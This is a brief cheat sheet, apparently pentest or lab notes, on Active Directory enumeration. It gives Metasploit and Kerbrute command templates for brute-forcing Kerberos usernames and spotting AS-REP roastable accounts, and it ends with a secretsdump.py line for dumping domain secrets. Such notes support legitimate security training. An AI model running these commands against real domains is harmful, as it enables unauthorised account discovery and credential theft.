# Active Directory Enumeration

## Enum Users \ MSF
Requirements : DC IP  
To enumerate users, we can try to bruteforce usernames.  
This MSF module also check for "require preauthentication" setting. This can lead to AS-REP Roasting
```bash
msfconsole
use Auxiliary/gather/Kerberos_enumusers
set RHOSTS <REMOTE IP>
set DOMAIN	<TARGET DOMAIN>
set USER_FILE <USERNAME FILE>
```

## Enum Users \ Kerbrute
Kerbrute is faster than MSF and also look for AS-REP Roasting
```bash
kerbrute userenum --domain <DOMAIN NAME> --dc <DC IP> <USERNAME FILE>
```

## Enum to dump secrets
```bash
secretsdump.py <DOMAIN>/<USER>:<PASS>@spookysec.local